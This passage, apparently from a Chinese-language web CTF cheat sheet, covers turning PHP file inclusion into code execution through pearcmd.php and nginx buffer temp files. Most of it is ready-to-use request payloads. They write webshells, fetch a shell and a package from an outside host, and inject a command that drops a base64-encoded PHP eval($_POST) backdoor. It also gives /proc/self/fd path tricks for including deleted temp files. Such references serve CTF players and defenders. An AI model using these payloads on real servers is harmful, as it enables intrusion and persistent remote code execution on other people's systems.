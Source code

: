     - Example
        - [HITCON CTF 2018 - One Line PHP Challenge](https://blog.kaibro.tw/2018/10/24/HITCON-CTF-2018-Web/)
        - [0CTF 2021 Qual - 1linephp](https://github.com/w181496/CTF/tree/master/0ctf2021_qual/1linephp)

## PEAR

- 條件
    - 安裝 pear (pearcmd.php)
    - 有開 `register_argc_argv`
- 寫檔
    - 法一: `/?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php`
    - 法二: `/?+-c+/tmp/shell.php+-d+man_dir=<?phpinfo();?>/*+-s+list&file=/usr/local/lib/php/pearcmd.php`
    - 法三: `/?+download+https://kaibro.tw/shell.php+&fike=/usr/local/lib/php/pearcmd.php`
    - 法四: `/?+channel-discover+kaibro.tw/302.php?&file=/usr/local/lib/php/pearcmd.php`
        - 302.php 會跳轉到 test.php 做下載
- 安裝 package
    - `/?+install+--force+--installroot+/tmp/wtf+http://kaibro.tw/KaibroShell.tgz+?&file=/usr/local/lib/php/pearcmd.php`
- Command Injection
    - `/?+install+-R+&file=/usr/local/lib/php/pearcmd.php&+-R+/tmp/other+channel://pear.php.net/Archive_Tar-1.4.14`
    - `/?+bundle+-d+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/+/tmp/other/tmp/pear/download/Archive_Tar-1.4.14.tgz+&file=/usr/local/lib/php/pearcmd.php&`
    - `/?+svntag+/tmp/;echo${IFS}PD9waHAgZXZhbCgkX1BPU1RbMF0pOyA/Pg==%7Cbase64${IFS}-d>/tmp/hello-0daysober.php;/Archive_Tar+&file=/usr/local/lib/php/pearcmd.php&`
- Example
    - [Balsn CTF 2021 - 2linephp](https://github.com/w181496/My-CTF-Challenges/tree/master/Balsn-CTF-2021#2linephp)
    - [巅峰极客2020 - MeowWorld](https://www.anquanke.com/post/id/218977#h2-3)

## Nginx buffering

- 當 Request body 過大或是 fastcgi server response 過大，超過 buffer size 時，其內容會保存到暫存檔中 ([reference](https://nginx.org/en/docs/http/ngx_http_core_module.html#client_body_buffer_size))
    - 會在 `/var/lib/nginx/body/`, `/var/lib/nginx/fastcgi/` 下建立暫存檔
    - 但該暫存檔會馬上被刪除
    - 可以透過 `/proc/<nginx worker pid>/fd/<fd>` 來取得被刪除的檔案內容
        - php 的 `include()` 會將 fd 路徑解析成 `/var/lib/nginx/body/0000001337 (deleted)` 格式，導致引入失敗
        - 可以用以下方式繞過
            - `/proc/self/fd/34/../../../34/fd/15`
            - `/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/34/fd/15`

- Example
    - [hxp ctf 2021 - includer's revenge](https://hxp.io/blog/90/hxp%20CTF%202021:%20includer%27s%20revenge%20writeup/)
